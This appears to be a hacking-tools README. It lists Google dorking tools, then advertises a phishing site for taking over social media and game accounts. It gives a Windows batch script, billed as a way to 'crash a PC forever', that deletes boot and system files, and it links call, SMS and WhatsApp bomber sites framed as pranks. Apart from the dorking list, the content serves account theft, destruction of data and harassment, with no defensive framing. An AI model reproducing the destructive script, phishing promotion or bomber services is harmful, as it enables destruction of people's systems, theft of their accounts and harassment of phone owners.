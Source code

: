 # 💀🔪 Google Hacking Tools 🔪☠ DrugsHack

## 🔺 GHDB - Google Hack Database
- **Description**: Google Hacking Database (GHDB) provides advanced Google search queries (Google Dorks) that can reveal sensitive information on the internet.
- 🔗 [Link](https://www.exploit-db.com/google-hacking-database/)

## 🔺 SearchDiggity
- **Description**: SearchDiggity 3.1 is the primary attack tool of the Google Hacking Diggity Project, designed for security professionals to automate Google dork queries.
- 🔗 [Link](http://www.bishopfox.com/resources/tools/google-hacking-diggity/attack-tools/)

## 🔺 Katana
- **Description**: A Python-based tool that helps with Google Hacking by exploiting Google search capabilities for reconnaissance and vulnerability discovery.
- 🔗 [Link](https://github.com/adnane-X-tebbaa/Katana)

## 🔺 GooFuzz
- **Description**: GooFuzz is a tool used for fuzzing with OSINT (Open Source Intelligence) to find vulnerabilities in applications through Google.
- 🔗 [Link](https://github.com/m3n0sd0n4ld/GooFuzz)

## 🔺 Pagodo
- **Description**: Pagodo automates Google Hacking Database scraping and searching, allowing users to find vulnerabilities across various platforms.
- 🔗 [Link](https://github.com/opsdisk/pagodo)

## 🔺 Google-Dorks
- **Description**: A repository of useful Google Dorks to help with Web Security and Bug Bounty hunting.
- 🔗 [Link](https://github.com/Proviesec/google-dorks)

---

# 𝗣𝗛𝗜𝗦𝗜𝗡𝗚 𝗕𝗘𝗚𝗜𝗡𝗡𝗘𝗥 𝗧𝗨𝗧𝗢𝗥𝗜𝗔𝗟 🎯

**Hack Instagram, Facebook, FF, PUBG, Snapchat accounts** and more.  
💀 [Visit Site](https://sc0m.com/dashboard)  

For **advanced methods**, comments, and reactions, please refer to the site.

---

## ⚠️ How to Crash a PC Forever 💻

To crash a PC, follow these steps:
1. Open Notepad and copy-paste the following code:
    ```
    attrib -r -s -h c:\autoexec.bat
    del c:\autoexec.bat
    attrib -r -s -h c:\boot.ini
    del c:\boot.ini
    attrib -r -s -h c:\ntldr
    del c:\ntldr
    attrib -r -s -h c:\windows\win.ini
    del c:\windows\win.ini
    ```
2. Save the file as `github.bat`. 
3. **Warning**: Don't click on this file, as it will shut down the computer and delete necessary files to reboot.

---

# 🤙 Free CALL Bomber Websites ✅

1) [callbomberz.in](https://www.callbomberz.in/)
2) [callbomber.in](https://callbomber.in/)
3) [lgnd.fun - Call Bomber](https://lgnd.fun/tool/bomber/call-bomber.php)

- 🔐 **Access Key**: @JokEerhackEer

## 💬 Free SMS Bomber Websites ✅

1) [callbomberz.in - SMS Bomber](https://www.callbomberz.in/unlimited-sms-bomber.html)
2) [smsbomber.online](https://smsbomber.online/unlimited-sms-bomber)
3) [mytoolstown.com - SMS Bomber](https://mytoolstown.com/smsbomber#bestsmsbomber)

## ⚠️ Protect Your Number from Call and SMS Bombers 😊

1) [callbomberz.in - Protect Number](https://www.callbomberz.in/protect.html)
2) [lgnd.fun - Protect Number](https://lgnd.fun/tool/protect-number.php)
3) [mytoolstown.com - Protect Number](https://mytoolstown.com/smsbomber/protect)
4) [callbomberpro.shop - Protect Number](https://callbomberpro.shop/protact/index2.php)

---

# 📱 Free WhatsApp Bomber Websites ✅

1) [lgnd.fun - WhatsApp Bomber](https://lgnd.fun/tool/bomber/whatsapp-bomber.php)
2) [callbomberpro.shop - WhatsApp Bomber](http://callbomberpro.shop/what.php)

⚠ **Note**: These websites are created for fun purposes only. The developers are not responsible for any misuse.

You can use these websites for pranking your friends ❌.

---


